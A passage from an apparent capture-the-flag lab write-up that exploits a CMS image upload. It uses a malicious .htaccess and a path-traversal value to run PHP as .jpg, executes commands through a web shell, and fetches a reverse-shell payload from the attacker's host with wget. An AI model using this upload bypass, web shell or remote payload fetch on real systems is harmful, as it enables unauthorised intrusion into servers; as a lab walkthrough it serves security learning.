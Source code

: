     ------WebKitFormBoundaryvdbAfQfvdjrTLooA
    Content-Disposition: form-data; name="images[]"; filename="**.htaccess**"
    Content-Type: image/jpeg

    **RewriteEngine Off
    AddType application/x-httpd-php .jpg**
    ------WebKitFormBoundaryvdbAfQfvdjrTLooA
    Content-Disposition: form-data; name="uuid"

    ../../tmp/temp
    ------WebKitFormBoundaryvdbAfQfvdjrTLooA
    Content-Disposition: form-data; name="tokenCSRF"

    3932e46b872ca59f022dd197c1b03b60b9f0d2c0
    ------WebKitFormBoundaryvdbAfQfvdjrTLooA--

We get

    HTTP/1.1 200 OK
    Date: Thu, 13 Aug 2020 17:06:55 GMT
    Server: Apache/2.4.41 (Ubuntu)
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 92
    Connection: close
    Content-Type: application/json

    {"status":1,"message":"File type is not supported. Allowed types: gif, png, jpg, jpeg, svg"}

Even if we get file type not supported, we can access our payload. Now what this does is treats all .jpg as .php files as a result, we can execute our payload and get a shell.

    [http://10.10.10.191/bl-content/tmp/temp/evil.jpg?cmd=whoami](http://10.10.10.191/bl-content/tmp/temp/evil.jpg?cmd=whoami)

    www-data

Another approach was after adding the .htaccess if we added a .php file, the file type not supported error was returned. But the PHP file was could be seen in

    http://10.10.10.191/bl-content/tmp/uploaded-php-file

## Getting Shell

Hosted the file using python and downloading it in the machine.

    [http://10.10.10.191/bl-content/tmp/temp/evil.jpg?cmd=wget%2010.10.14.192:8000/sh.php](http://10.10.10.191/bl-content/tmp/temp/evil.jpg?cmd=wget%2010.10.14.192:8000/sh.php)

After downloading we can see the reverse shell on

![](https://cdn-images-1.medium.com/max/2000/1*8cdcnNOyiNh1ifjrLpnTvw.png)

On running sh.php we get the shell with user www-data

![](https://cdn-images-1.medium.com/max/2000/1*TS30n08yMv4pfAkyYTRZFw.png)
